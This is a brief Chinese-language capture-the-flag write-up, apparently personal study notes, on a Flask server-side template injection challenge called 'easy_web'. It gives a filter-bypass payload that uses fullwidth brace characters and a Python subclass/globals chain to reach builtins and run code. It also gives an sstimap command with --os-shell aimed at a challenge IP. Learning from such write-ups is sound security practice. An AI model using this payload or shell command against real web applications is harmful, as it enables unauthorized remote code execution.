



# easy_web
感觉是ssti注入

有过滤,
f12还发现

响应包:(火狐的wappalyzer有问题,用chrome)



文章学习:[15394415.html#flask初识](https://www.cnblogs.com/tuzkizki/p/15394415.html#flask初识)
不怎么会ssti,学习一下题解吧!
这里{被过滤,实在不知道用啥,题解用了特殊符号转换
︷︷config︸︸
本题的单引号也被过滤,用request.args.x/header/cookie,传参绕过
还可以
```
原字符：'（半角单引号，ASCII 字符）
​替换后的字符：＇（全角单引号，Unicode 字符 ＇，常用于中文排版）
```
payload:str=︷︷().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__[request.args.x](request.args.y).read()︸︸

最后用sstimap试一下,
```
python sstimap.py -u "http://61.147.171.105:49714/"  --data "str=1" --os-shell

```
....sstimap没有绕过功能好像